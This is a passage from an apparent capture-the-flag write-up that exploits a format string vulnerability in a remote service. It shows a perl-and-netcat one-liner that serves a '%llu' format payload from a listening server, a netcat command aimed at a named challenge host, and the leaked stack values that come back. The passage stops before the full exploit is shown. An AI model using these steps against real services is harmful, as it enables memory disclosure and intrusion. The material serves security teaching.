 Recall how the arguments are passed on callq:
	"%rdi, %rsi, %rdx, %rcx, %r8 and %r9  are the registers in order used to pass parameters to any 
	libc function from assembly. %rdi is used for first parameter. %rsi for 2nd, %rdx for 3rd and 
	so on." 

The code that I omit it just initializes the socket, makes the connection to the server and sends
the GET request. 

We have a format string vulnerability here. Let's try to exploit it:

1. First set up a server:
	perl -e 'print "AAAA%x"."%llu|"x200' | nc -nvvl -p80

2. Connect to vulnerable server:
	echo "GET http://ispo.ddns.net/" | nc -vv pwnxy.haxdump.com 1337

The response that we get back is:
```

AAAAffffbea0140737351866848|140737348895744|140737354069824|0|21474836486|140737488349840|55834574912|
140737488349328|3328495691197067825|57415898314801|0|0|0|0|140737354111432|6310544|0|1|0|0|0|0|
7792766831638430017|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162985046768757|8461256708179979372|
7792771574006556028|8968193444719392108|7812660670057180197|2701162983232373248|4199320|4155044400|80|
140733193388045|6310544|17039950270|140737351861824|2|140737488350384|4199116|140737488350616|
18374686488125131153|7954592992444052329|Only GET requests!
```
(NOTE: Things fucked up when you use %x instead of %llu to leak an address).
This response is important, but we'll leave it for now.
